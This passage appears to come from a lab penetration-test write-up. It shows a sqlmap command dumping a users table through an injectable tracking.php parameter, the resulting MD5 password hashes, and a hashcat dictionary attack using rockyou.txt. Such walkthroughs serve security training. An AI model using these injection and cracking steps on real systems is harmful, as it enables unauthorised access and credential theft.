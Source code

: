 ![172.16.64.92 Sqlmap Database](/assets/img/posts/black-box-pentest-2/172.16.64.92/72a-sqlmap-tables.jpg)

`sqlmap -u http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=1 -D footracking -T users --dump`

A more detailed list of commands that led to the above command are documented below in the Useful Commands section but the image above displays the full SQL dump of the footracking database. Let's focus in on the footracking database.

The telemetry_test table contains the data that is displayed to the tracking.php page when a query was submitted. This data is bogus User-Agent and Platform data that is not relevant. Focusing on the users database, there is vital information that we could use to authenticate to the application.

| id | adm | password                         | username  |
|----|-----|----------------------------------|-----------|
| 1  | yes | c5d71f305bb017a66c5fa7fd66535b84 | fcadmin1  |
| 2  | yes | 14d69ee186f8d9bbeddd4da31559ce0f | fcadmin2  |
| 3  | no  | 827ccb0eea8a706c4c34a16891f84e7b | tracking1 |
| 4  | no  | e10adc3949ba59abbe56e057f20f883e | tracking2 |

The hash-identifier tool identified these hashes to likely be MD5 hashes. Let's use a dictionary attack method using hashcat to crack these passwords.

`hashcat -a 0 -m 0 hashes.txt /usr/share/wordlists/rockyou.txt`
- `-a 0`: Dictionary attack mode
- `-m 0`: MD5 hashes
- `hashes.txt`: List of hashes separated by newline
- `/usr/share/wordlists/rockyou.txt`: Password list

![172.16.64.92 Hashcat Hashes](/assets/img/posts/black-box-pentest-2/172.16.64.92/hashcat.jpg){: .left}
The hashes.txt file contains the four hashes form the password column of the users table. It seems that the non-administrative user hashes were cracked. If rockyou.txt wasn't able to crack the admin hashes, they may require brute force cracking.

